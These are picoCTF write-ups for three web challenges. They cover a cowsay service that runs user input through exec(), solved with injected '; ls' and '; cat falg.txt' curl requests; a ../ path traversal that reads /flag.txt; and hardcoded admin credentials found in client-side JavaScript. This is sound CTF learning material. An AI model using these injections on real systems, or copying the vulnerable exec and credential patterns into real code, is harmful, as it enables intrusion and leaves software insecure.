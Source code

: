 # cass

**Flag:** `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`

We're given a [website](https://caas.mars.picoctf.net/) where we can enter a message and have it be output by cowsay. We're also given an `index.js` file with the following contents

```
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
    exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
        if (error) return res.status(500).end();
        res.type('txt').send(stdout).end();
    });
});

app.listen(3000, () => {
    console.log('listening');
});
```

It turns out the service simply runs the `exec` command on whatever our message at the end of our url is. This is perfect for injecting unwanted shell code. First, we inject `ls` to see the list of all the files in the home directory


```
~ $ curl "https://caas.mars.picoctf.net/cowsay/test; ls"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

We find a file `falg.txt`, presumably containing the desired flag. Running `curl` once again, we find that is indeed the case

```
~ $ curl "https://caas.mars.picoctf.net/cowsay/ac; cat falg.txt"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

# Forbidden Paths

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

Here, the flag is given in the file `/flag.txt`, but absolute paths are not allowed to be entered. We know an nginx website is stored at `/usr/share/nginx/html/`, so we use relative file paths to traverse to the file.

![The input](../Images/input.png)

Since we are four levels deep in the root directory, we use `../` four times.

![The flag](../Images/path_flag.png)

So the flag turns out to be `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`.

# Local Authority

**Flag:** `picoCTF{j5_15_7r4n5p4r3n7_05df90c8}`

We are given a website `http://saturn.picoctf.net:50920/`, which opens to a login page.

![Portal](../Images/login_portal.png)

We open our browser's network tab and enter meaningless data in the input fields. After that we open the request titled `secure.js` and go into its *Response* tab.


https://github.com/lucky-vers/Cryptonite-Taskphase/assets/51952975/e08177a5-6516-4291-98d0-47a89f523bd6


We find the following (very insecure!) JavaScript code that checks whether the username and password are that of the admin's or not

```
function checkPassword(username, password)
{
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}
```

Therefore, the username we need is `admin` and the password `strongPassword098765`. Using these details, we successfully log in and acquire the flag.


https://github.com/lucky-vers/Cryptonite-Taskphase/assets/51952975/8b7d50f8-eb97-4801-b99e-16fe569cc6e0



